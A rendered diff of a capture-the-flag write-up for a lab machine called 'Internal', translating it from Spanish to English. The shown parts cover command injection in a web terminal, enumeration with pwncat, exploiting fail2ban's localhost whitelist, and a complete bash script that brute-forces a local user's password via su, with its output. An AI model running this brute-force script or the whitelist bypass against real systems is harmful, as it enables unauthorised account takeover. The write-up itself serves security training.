

Before and after one commit to buda-sys/Buda_Hack_Security, a Markdown page: budahacksecurity_static/uploads/Internal.md, 3 parts joined by grey strips. Shown at 85% size. GitHub-like rendering; grey boxes are pictures that could not be loaded.

````diff
--- a/budahacksecurity_static/uploads/Internal.md
+++ b/budahacksecurity_static/uploads/Internal.md
@@ -98,7 +84,7 @@ Al visitar el subdominio encontramos un administrador de copias de seguridad con
 
 ---
 
-## Intrusión
+## Intrusion
 
-Al ingresar una ruta en la terminal web, vemos que el sistema la procesa con `ls -lah`. Esto indica que el input del usuario se pasa directamente a un comando del sistema, lo que sugiere una posible **inyección de comandos**.
+When entering a path in the web terminal, we see the system processes it with `ls -lah`. This indicates the user input is passed directly to a system command, suggesting a possible **command injection**.
 
@@ -161,17 +147,17 @@ Este payload está **ofuscado** para bypassear los filtros:
 
-Obtenemos acceso al sistema como `www-data`.
+We gain access to the system as `www-data`.
 
 ---
 
-## Enumeración del sistema
+## System Enumeration
 
-Una vez dentro, enumeramos el sistema con pwncat para identificar usuarios, procesos y archivos relevantes.
+Once inside, we enumerate the system with pwncat to identify relevant users, processes, and files.
 
 ```bash
 (local) pwncat$ run enumerate.gather
 ```
 
-Identificamos que el servicio **fail2ban** está activo, lo que significa que hay protección contra intentos de inicio de sesión. Si realizamos más de 3 intentos fallidos en 60 segundos, nuestra IP será bloqueada y no podremos usar herramientas como Hydra directamente.
+We identify that the **fail2ban** service is active, meaning there is protection against login attempts. If we make more than 3 failed attempts in 60 seconds, our IP will be blocked and we won't be able to use tools like Hydra directly.
 
-También encontramos los usuarios `vault` y `ubuntu` en el sistema.
+We also find the users `vault` and `ubuntu` on the system.
 
@@ -212,11 +198,11 @@ Gq4@tX7#eK2&
 
 ---
 
-## Movimiento lateral — vault
+**Lateral Movement — vault**
 
-En la explicación del script agrega algo así:
+In the script explanation, add something like this:
 
-> "Antes de crear el script, revisamos la configuración de fail2ban para entender sus límites:"
+> "Before creating the script, we review the fail2ban configuration to understand its limits:"
 
 ```bash
 cat /etc/fail2ban/jail.local
@@ -229,7 +215,8 @@ findtime = 60
 bantime = 30
 ignoreip = 127.0.0.1/8 ::1
 ```
-Vemos que fail2ban está configurado para bloquear IPs externas que fallen más de 3 veces en 60 segundos, con un bantime de 30 segundos. Sin embargo, la directiva `ignoreip = 127.0.0.1/8 ::1` indica que **las conexiones desde localhost están completamente ignoradas**, lo que significa que la fuerza bruta desde dentro del sistema no será detectada ni bloqueada. Por eso atacamos desde `127.0.0.1` en lugar de hacerlo externamente."
+
+We see that fail2ban is configured to block external IPs that fail more than 3 times in 60 seconds, with a bantime of 30 seconds. However, the `ignoreip = 127.0.0.1/8 ::1` directive indicates that **connections from localhost are completely ignored**, meaning brute-force from within the system will not be detected or blocked. That's why we attack from `127.0.0.1` instead of doing it externally.
 
 ```bash
 cat > /tmp/force.sh << 'EOF'
@@ -240,38 +227,38 @@ user="vault"
 dictionary="/opt/.vault_pass.txt"
 delay=5
 
-trap "echo '[!] Abortado por el usuario'; exit 1" SIGINT SIGTERM
+trap "echo '[!] Aborted by user'; exit 1" SIGINT SIGTERM
 
-echo "[*] Iniciando fuerza bruta sigilosa contra $host"
-echo "[*] Usuario: $user"
-echo "[*] Delay: ${delay}s entre intentos"
+echo "[*] Starting stealthy brute-force against $host"
+echo "[*] User: $user"
+echo "[*] Delay: ${delay}s between attempts"
 echo ""
 
 while IFS= read -r password; do
     result=$(su -c "whoami" "$user" <<< "$password" 2>/dev/null)
 
     if [ "$result" = "$user" ]; then
-        echo "[+] CONTRASEÑA ENCONTRADA: $password"
+        echo "[+] PASSWORD FOUND: $password"
         exit 0
     else
-        echo "[-] Fallido: $password"
+        echo "[-] Failed: $password"
     fi
 
     sleep $delay
 
 done < "$dictionary"
 
-echo "[-] Wordlist agotada sin resultados"
+echo "[-] Wordlist exhausted with no results"
 EOF
 chmod +x /tmp/force.sh
 bash /tmp/force.sh
 ```
 
- obtenemos la contraseña:
+We obtain the password:
 
 ```
-[+] CONTRASEÑA ENCONTRADA: Yk8$pZ5@cN4!
+[+] PASSWORD FOUND: Yk8$pZ5@cN4!
 ```
 
-Obtenemos acceso como `vault` y encontramos la primera flag.
+We gain access as `vault` and find the first flag.
 
````
Also changed, not shown: other parts of budahacksecurity_static/uploads/Internal.md (+91 -106 lines).
